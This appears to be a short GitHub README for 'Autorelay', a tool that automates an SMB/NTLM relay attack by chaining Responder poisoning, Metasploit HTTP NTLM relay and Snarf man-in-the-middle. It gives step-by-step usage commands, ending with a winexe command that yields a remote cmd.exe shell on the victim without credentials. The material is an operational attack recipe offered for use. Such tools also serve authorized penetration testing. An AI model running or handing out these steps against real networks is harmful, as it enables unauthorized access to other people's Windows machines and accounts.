 # Autorelay

Automatically performs the SMB relay attack. Uses Responder to poison, Metasploit for HTTP NTLM relay (rather than just SMB relay), and Snarf for the MITM'ing. 


## Usage

1. pip install -r requirements

2. python autoresp.py -i [interface] -x [nmap xml file]

3. Point your browser to http://localhost:4001 and refresh it periodically to see your MITM'd connections

4. After a connection is expired (or you expire it), click "choose"

5. On the remote device run: winexe //127.0.0.1 -U "a%a" cmd.exe

6. If your SMB connection had admin rights, you now have a shell without any credentials.
